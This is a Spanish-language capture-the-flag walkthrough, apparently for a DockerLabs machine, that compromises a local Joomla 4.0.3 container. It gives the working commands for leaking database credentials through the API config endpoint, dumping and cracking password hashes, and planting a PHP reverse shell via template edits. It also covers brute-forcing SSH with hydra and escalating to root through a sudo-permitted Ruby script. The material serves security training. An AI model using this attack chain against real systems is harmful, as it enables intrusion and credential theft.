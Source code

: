 nmap: 22,80 3306

![image](https://github.com/user-attachments/assets/127b255b-eead-405d-ae0f-217aa3fc6a6b)

---

en la pagina principal hay un apache2 ubuntu, nada interesante tampoco en el código fuente

hacemos un gobuster:

       - # gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 20 -x php,html,txt -k

y nos da:

![image](https://github.com/user-attachments/assets/c5162c38-f072-4037-a84a-e6493cb0bd95)

entramos y tenemos pagina

![image](https://github.com/user-attachments/assets/962bf906-35fe-4292-8422-d8fd1704ad92)

en la pagina encontré esto interesante

![image](https://github.com/user-attachments/assets/5c7ed55c-e58f-4781-8a1a-d152f4d59ceb)

*buscar posible explotación:  Joomla 4.0.3*

> exploit encontrado: https://vulncheck.com/blog/joomla-for-rce

![image](https://github.com/user-attachments/assets/50675612-80c8-4071-b29a-581309090f31)

utilizamos joomscan (JoomScan es una herramienta de escaneo de vulnerabilidades diseñada específicamente para aplicaciones web basadas en Joomla. Sirve para identificar posibles vulnerabilidades y debilidades en sitios web que utilizan este popular sistema de gestión de contenido (CMS):

       - joomscan -u http://172.17.0.2/wordpress/

nos da:

![image](https://github.com/user-attachments/assets/61314e6d-2a8b-4e5e-abe1-3f65103725a2)

entramos a los dos de robots.txt y administrador

![image](https://github.com/user-attachments/assets/92a794ae-04b3-419c-bff4-4f517e7cb9e7)

![image](https://github.com/user-attachments/assets/2dbc3100-4fe1-4381-8ea1-8b29038b55de)

buscando también me llamo la atención esto

![image](https://github.com/user-attachments/assets/88ef841f-d5cb-4f34-8ee3-f38719dddb26)

hasta que encontré este comando

     curl -v http://172.17.0.2/wordpress/api/index.php/v1/config/application?public=true

y me dio las credenciales

![image](https://github.com/user-attachments/assets/9105f3c8-586f-48cb-85e7-09a41d13ac72)

usuario: joomla_user
contraseña: vuln

probé en el login que teníamos en administrator, pero no funciono así que probé con la base de datos  

revisamos una posible base de datos con los usuarios encontrados:

      - mysql -h 172.17.0.2 -u joomla_user -pvuln

entramos a "mysql none":

     show databases; 

![image](https://github.com/user-attachments/assets/f8d28e70-b8ea-405c-a017-ab7bcc4a3733)

    use joomla_db
    show tables

![image](https://github.com/user-attachments/assets/610fc7fc-564a-4302-9f9b-e00df1af7c48)


    select * from ffsnq_users;

nos da una contraseña encriptada:

![image](https://github.com/user-attachments/assets/676d66ed-15cc-43de-984c-c8c6412ba7c4)


utilizamos: https://hashes.com/en/decrypt/hash

       - $2y$10$UVmUci/wKgu7LFir7KIzP.NDup3lYDUxPzz7WZryvEYVdUjUVhou.
       - contraseña: bcrypt

creamos un archivo con la contraseña encriptada llamado "hash.txt"

en el terminal:
      
    hashcat -m 3200 hast.txt /usr/share/wordlists/rockyou.txt
    
nos da otra contraseña: 14344392
también nos da posible contraseña: tequieromucho

credenciales para admin:

      - firstatack
      - tequieromucho

vamos al login e ingresamos

![image](https://github.com/user-attachments/assets/aa06ac02-5ece-4d63-9e0c-56f8ed2117ea)

luego buscando en la pagina como admin vamos a:

> system > site templates > click en la pagina > index.php y cargamos un código php 

para conectarnos: https://github.com/pentestmonkey/php-reverse-shell
cambiamos IP y puerto: lo guardamos y en otra pestaña abrimos con la IP de la pagina mientras tenemos en escucha nuestro puerto 443, y entramos.

![image](https://github.com/user-attachments/assets/9864687e-a268-45b9-8d7d-2a1334c1e591)

luego de cargar en index.php la reverse la cargamos en el URL con el terminal en escucha

> http://172.17.0.2/wordpress/index.php?cmd=cat%20/etc/passwd

hacemos tratamiento de stty y buscamos como escalar.

dentro hay dos usuarios: guadalupe e ignacio y hacemos un ataque de fuerza bruta:

     hydra -l ignacio -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64

     hydra -l guadalupe -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64

![image](https://github.com/user-attachments/assets/b6ebaff8-7100-4b50-8229-d26c4ce2d885)

y tenemos la contraseña de ambos usuarios. con el que podemos escalar es con ignacio

![image](https://github.com/user-attachments/assets/7c491d6d-8d06-4303-b666-5ba0687ec4c6)

ya dentro del usuario Ignacio podemos ejecutar los "nano" así que modificamos el archivo "saludos.rb": 


      sudo /usr/bin/saludos.rb

         - exec "/bin/sh"
         - system "/bin/sh"

ejecutamos 

     sudo /usr/bin/ruby /usr/bin/saludos.rb

![[dockerlabs/dificil/vulnerame/root.png]]

y somos root! 
